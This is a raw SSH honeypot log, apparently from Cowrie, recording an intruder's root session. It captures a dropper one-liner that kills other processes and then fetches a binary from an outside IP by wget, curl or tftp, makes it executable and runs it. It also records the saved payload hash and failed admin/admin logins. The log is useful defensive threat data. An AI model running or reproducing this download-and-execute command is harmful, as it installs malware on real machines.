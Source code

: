 ```verilog
2023-11-30T01:42:07.265865Z [HoneyPotSSHTransport,46,204.76.203.13] Reading txtcmd from "share/cowrie/txtcmds/bin/enable"
2023-11-30T01:42:07.342616Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: system
2023-11-30T01:42:07.343443Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command system
2023-11-30T01:42:07.343543Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: system
2023-11-30T01:42:07.344757Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: shell
2023-11-30T01:42:07.345442Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command shell
2023-11-30T01:42:07.345546Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: shell
2023-11-30T01:42:07.346481Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: sh
2023-11-30T01:42:07.346943Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: sh 
2023-11-30T01:42:07.348235Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: linuxshell
2023-11-30T01:42:07.348894Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command linuxshell
2023-11-30T01:42:07.349000Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: linuxshell
2023-11-30T01:42:07.354857Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: cd /tmp/; echo "senpai" > rootsenpai; cat rootsenpai; rm -rf rootsenpai
2023-11-30T01:42:07.355450Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: cd /tmp/
2023-11-30T01:42:07.355807Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: echo senpai > rootsenpai
2023-11-30T01:42:07.356814Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: cat rootsenpai
2023-11-30T01:42:07.357419Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: rm -rf rootsenpai
2023-11-30T01:42:07.457483Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: for dir in /proc/[0-9]*; do grep -q "(deleted)" "$dir/maps" && echo "Killing process with PID: $(basename $dir)" && kill -9 $(basename $dir); done;; rm -rf ah; wget http://94.156.68.152/ah || curl -O http://94.156.68.152/ah || tftp 94.156.68.152 -c get ah || tftp -g -r ah 94.156.68.152; chmod 777 ah;./ah ssh; rm -rf ah
2023-11-30T01:42:07.458423Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: basename $dir
2023-11-30T01:42:07.459906Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command basename
2023-11-30T01:42:07.460015Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: basename $dir
2023-11-30T01:42:07.460604Z [HoneyPotSSHTransport,46,204.76.203.13] CMD: basename $dir
2023-11-30T01:42:07.461305Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command basename
2023-11-30T01:42:07.461404Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: basename $dir
2023-11-30T01:42:07.462372Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command for
2023-11-30T01:42:07.462472Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: for dir in /proc/ [ 0-9 ] *
2023-11-30T01:42:07.463164Z [HoneyPotSSHTransport,46,204.76.203.13] Can't find command deleted
2023-11-30T01:42:07.463262Z [HoneyPotSSHTransport,46,204.76.203.13] Command not found: deleted $dir/maps
2023-11-30T01:42:07.463781Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: echo Killing process with PID: 
2023-11-30T01:42:07.464210Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: kill -9 
2023-11-30T01:42:07.464521Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: done ;; rm -rf ah
2023-11-30T01:42:07.464818Z [HoneyPotSSHTransport,46,204.76.203.13] Command found: wget http://94.156.68.152/ah
2023-11-30T01:42:57.566448Z [HoneyPotSSHTransport,46,204.76.203.13] Saved redir contents with SHA-256 199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8 to var/lib/cowrie/downloads/199d11d0fd7043fe9206954ed8bc7b54d1912013a2a71bdf8bb007b71bb490c8
2023-11-30T01:42:57.567406Z [HoneyPotSSHTransport,46,204.76.203.13] Closing TTY Log: var/lib/cowrie/tty/35418a8d6dcb23a0ee6716fc1f7ae2255bd9f34584706ff5b8c6f8f42b98100f after 50 seconds
2023-11-30T01:42:57.643590Z [HoneyPotSSHTransport,46,204.76.203.13] avatar root logging out
2023-11-30T01:42:57.643806Z [HoneyPotSSHTransport,46,204.76.203.13] Connection lost after 51 seconds
2023-11-30T01:41:53.571325Z [HoneyPotSSHTransport,42,204.76.203.13] Remote SSH version: SSH-2.0-libssh2_1.10.0
2023-11-30T01:41:53.647609Z [HoneyPotSSHTransport,42,204.76.203.13] SSH client hassh fingerprint: 63ae64767f334c6a74647d80edb0291e
2023-11-30T01:41:54.047697Z [HoneyPotSSHTransport,42,204.76.203.13] first time for 204.76.203.13, need: 5
2023-11-30T01:41:54.047814Z [HoneyPotSSHTransport,42,204.76.203.13] login attempt: 1
2023-11-30T01:41:54.085794Z [HoneyPotSSHTransport,42,204.76.203.13] login attempt [b'admin'/b'admin'] failed
```
